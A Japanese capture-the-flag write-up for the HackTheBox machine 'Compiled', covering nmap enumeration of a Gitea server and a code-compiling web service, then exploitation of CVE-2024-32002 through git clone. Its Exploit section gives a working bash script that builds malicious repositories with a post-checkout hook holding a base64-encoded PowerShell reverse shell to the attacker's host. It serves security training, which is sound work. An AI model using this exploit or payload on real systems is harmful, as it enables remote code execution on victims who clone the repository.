# Compiled



# Enumeration

## nmap

```
# Nmap 7.94SVN scan initiated Sun Jul 28 09:48:11 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/hatto/CTF/HTB/machine/Windows/Compiled/results/10.10.11.26/scans/_full_tcp_nmap.txt -oX /home/hatto/CTF/HTB/machine/Windows/Compiled/results/10.10.11.26/scans/xml/_full_tcp_nmap.xml 10.10.11.26
Nmap scan report for 10.10.11.26
Host is up, received user-set (0.21s latency).
Scanned at 2024-07-28 09:48:11 JST for 845s
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON          VERSION
3000/tcp open  ppp?       syn-ack ttl 127
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=be02020602cba41b; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=e1sCmkUnWyt6-HfNdHjYuGqIvC06MTcyMjEyNzczMzQyNzIzOTkwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 28 Jul 2024 00:48:53 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-arc-green">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Git</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0Iiwic2hvcnRfbmFtZSI6IkdpdCIsInN0YXJ0X3VybCI6Imh0dHA6Ly9naXRlYS5jb21waWxlZC5odGI6MzAwMC8iLCJpY29ucyI6W3sic3JjIjoiaHR0cDovL2dpdGVhLmNvbXBpbGVkLmh0YjozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2l6ZXMiOiI1MTJ4NTEyIn0seyJzcmMiOiJodHRwOi8vZ2l0ZWEuY29tcGlsZWQuaHRiOjMwMDA
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=2de7873205b3dc21; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=ktkJutk3LzP7-nO_Q22qtSwxEqs6MTcyMjEyNzczOTYyNTAyODgwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 28 Jul 2024 00:48:59 GMT
|_    Content-Length: 0
5000/tcp open  upnp?      syn-ack ttl 127
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.12.3
|     Date: Sun, 28 Jul 2024 00:48:53 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5234
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Compiled - Code Compiling Services</title>
|     <!-- Bootstrap CSS -->
|     <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
|     <!-- Custom CSS -->
|     <style>
|     your custom CSS here */
|     body {
|     font-family: 'Ubuntu Mono', monospace;
|     background-color: #272822;
|     color: #ddd;
|     .jumbotron {
|     background-color: #1e1e1e;
|     color: #fff;
|     padding: 100px 20px;
|     margin-bottom: 0;
|     .services {
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
5985/tcp open  http       syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub? syn-ack ttl 127
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3000-TCP:V=7.94SVN%I=9%D=7/28%Time=66A5976B%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,2A74,"HTTP/1\.0\x20200\x20OK\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_git
SF:ea=be02020602cba41b;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Coo
SF:kie:\x20_csrf=e1sCmkUnWyt6-HfNdHjYuGqIvC06MTcyMjEyNzczMzQyNzIzOTkwMA;\x
SF:20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Sun,\x2028\x20Jul\x202024\x2000:48:53\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-arc-green\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"widt
SF:h=device-width,\x20initial-scale=1\">\n\t<title>Git</title>\n\t<link\x2
SF:0rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR2
SF:l0Iiwic2hvcnRfbmFtZSI6IkdpdCIsInN0YXJ0X3VybCI6Imh0dHA6Ly9naXRlYS5jb21wa
SF:WxlZC5odGI6MzAwMC8iLCJpY29ucyI6W3sic3JjIjoiaHR0cDovL2dpdGVhLmNvbXBpbGVk
SF:Lmh0YjozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2l
SF:6ZXMiOiI1MTJ4NTEyIn0seyJzcmMiOiJodHRwOi8vZ2l0ZWEuY29tcGlsZWQuaHRiOjMwMD
SF:A")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(HTTPOptions,197,"HTTP/1\.0\x20405\x20Method\x20Not\x20All
SF:owed\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Control:\x20max-age=0,
SF:\x20private,\x20must-revalidate,\x20no-transform\r\nSet-Cookie:\x20i_li
SF:ke_gitea=2de7873205b3dc21;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nS
SF:et-Cookie:\x20_csrf=ktkJutk3LzP7-nO_Q22qtSwxEqs6MTcyMjEyNzczOTYyNTAyODg
SF:wMA;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Fra
SF:me-Options:\x20SAMEORIGIN\r\nDate:\x20Sun,\x2028\x20Jul\x202024\x2000:4
SF:8:59\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\
SF:.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=
SF:utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5000-TCP:V=7.94SVN%I=9%D=7/28%Time=66A5976B%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,105D,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.0\.3
SF:\x20Python/3\.12\.3\r\nDate:\x20Sun,\x2028\x20Jul\x202024\x2000:48:53\x
SF:20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length
SF::\x205234\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20l
SF:ang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\
SF:x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,\
SF:x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Compiled\x20-\x20Code\
SF:x20Compiling\x20Services</title>\n\x20\x20\x20\x20<!--\x20Bootstrap\x20
SF:CSS\x20-->\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"https
SF:://stackpath\.bootstrapcdn\.com/bootstrap/4\.5\.2/css/bootstrap\.min\.c
SF:ss\">\n\x20\x20\x20\x20<!--\x20Custom\x20CSS\x20-->\n\x20\x20\x20\x20<s
SF:tyle>\n\x20\x20\x20\x20\x20\x20\x20\x20/\*\x20Add\x20your\x20custom\x20
SF:CSS\x20here\x20\*/\n\x20\x20\x20\x20\x20\x20\x20\x20body\x20{\n\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x20'Ubuntu\x20Mono
SF:',\x20monospace;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20backg
SF:round-color:\x20#272822;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20color:\x20#ddd;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20
SF:\x20\x20\x20\x20\.jumbotron\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20background-color:\x20#1e1e1e;\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20padding:\x20100px\x2020px;\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20margin-bottom:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0}\n\x20\x20\x20\x20\x20\x20\x20\x20\.services\x20{\n\x20")%r(RTSPReque
SF:st,16C,"<!DOCTYPE\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<hea
SF:d>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x
SF:20\x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x2
SF:0\x20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<
SF:h1>Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20
SF:code:\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x2
SF:0request\x20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20<p>Error\x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x
SF:20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\
SF:n</html>\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/28%OT=3000%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=66A59898%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10B%TI=I%II=I%SS=S%TS=U)
SEQ(SP=103%GCD=1%ISR=10B%TI=RD%II=I%TS=U)
OPS(O1=M53ANW8NNS%O2=M53ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M53ANW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Randomized
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 5985/tcp)
HOP RTT       ADDRESS
1   224.01 ms 10.10.16.1
2   224.10 ms 10.10.11.26

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 28 10:02:16 2024 -- 1 IP address (1 host up) scanned in 845.16 seconds
```

httpポートが2つとWinRMが開いていた

ドメインはなかったが追加しておく

```
10.10.11.26	compiled.htb
```

開いている5000ポートにアクセスしてみるとC++, C#, .NETをコンパイルするのためのサイトだった。

ページ下部にgitのリポジトリURLを記入するフォームがあるので試しに適当なURLを入れてみる。



どうやら送信されたURLのリポジトリをクローンするらしい



ディレクトリ探索もおこなったが特に何も見つからなかった



もう一つのポート3000にアクセスするとGiteaのページが表示された



アカウントを作成することができるので適当に作ってみた



エクスプローラーを見てみると２つのリポジトリを見つけた



どうやらC++で記述された電卓とポート5000で動いていたWebサイトのリポジトリらしい。適当に何か見つかるか探索してみたが特に興味深いものは見つからなかった。

リタイアマシンで `Visual` というマシンがありこのマシンはビルドイベントを悪用してRCEを発火させるもので今回のケースと少し似ている。今回はGitのリポジトリをクローンするのでクローン時にRCEを発火させる脆弱性がないか調べてみた。

`git clone rce`で検索すると以下の記事を見つけた

[Exploiting CVE-2024-32002: RCE via git clone](https://amalmurali.me/posts/git-rce/)



CVE-2024-32002は、Gitの`git clone`コマンドに関連するリモートコード実行（RCE）の脆弱性で、この脆弱性により、攻撃者は悪意のあるGitリポジトリを作成し、それをユーザーがクローンすることで、被害者のマシン上で任意のコードを実行することができるらしい。

# Exploit

GithubにこのCVEを悪用するPoCがあった

https://github.com/amalmurali47/git_rce

しかしこのPoCだけでは機能しないのでPoCを参考に以下のシェルスクリプトを作成した。

このシェルスクリプトを使用するには空のリポジトリを２つ作成する必要がある。



作成したリポジトリのURLを適切に設定する必要がある。

```
#!/bin/bash

git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main

rm -rf repo1
rm -rf repo2

git clone http://compiled.htb:3000/test/repo1.git
cd repo1
mkdir -p y/hooks
cat > y/hooks/post-checkout <<EOF
#!bin/sh.exe
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMgA4ACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
EOF
chmod +x y/hooks/post-checkout
git add y/hooks/post-checkout
git commit -m "post-checkout"
git push
cd ..

git clone http://compiled.htb:3000/test/repo2.git
cd repo2
git submodule add --name x/y "http://compiled.htb:3000/test/repo1.git" A/modules/x
git commit -m "add-submodule"
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
git push
```

適切に設定することができたら実行

